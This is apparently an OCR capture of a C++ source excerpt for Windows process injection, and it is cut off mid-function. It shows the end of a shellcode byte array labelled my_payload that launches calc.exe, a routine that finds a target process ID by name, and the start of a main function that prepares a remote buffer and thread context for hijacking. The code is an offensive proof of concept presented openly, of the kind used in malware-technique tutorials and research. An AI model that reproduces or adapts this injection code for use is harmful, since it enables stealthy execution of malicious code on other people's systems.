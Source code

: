 ```cpp
  0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 0xff, 0xff, 0x5d, 0x48,
  0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d,
  0x01, 0x01, 0x00, 0x00, 0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5,
  0xbb, 0xf0, 0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0,
  0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 0x00, 0x59, 0x41, 0x89,
  0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};

unsigned int my_payload_len = sizeof(my_payload);

// get process PID
int findMyProc(const char *procname) {

  HANDLE hSnapshot;
  PROCESSENTRY32 pe;
  int pid = 0;
  BOOL hResult;

  // snapshot of all processes in the system
  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

  // initializing size: needed for using Process32First
  pe.dwSize = sizeof(PROCESSENTRY32);

  // info about first process encountered in a system snapshot
  hResult = Process32First(hSnapshot, &pe);

  // retrieve information about the processes
  // and exit if unsuccessful
  while (hResult) {
    // if we find the process: return process ID
    if (strcmp(procname, pe.szExeFile) == 0) {
      pid = pe.th32ProcessID;
      break;
    }
    hResult = Process32Next(hSnapshot, &pe);
  }

  // closes an open handle (CreateToolhelp32Snapshot)
  CloseHandle(hSnapshot);
  return pid;
}

int main(int argc, char* argv[]) {
  DWORD pid = 0; // process ID
  HANDLE ph; // process handle
  HANDLE ht; // thread handle
  LPVOID rb; // remote buffer

  HANDLE hSnapshot;
  THREADENTRY32 te;
  CONTEXT ct;

  pid = findMyProc(argv[1]);
  if (pid == 0) {
    printf("PID not found :( exiting...\n");
    return -1;
  } else {
    printf("PID = %d\n", pid);

    ct.ContextFlags = CONTEXT_FULL;
```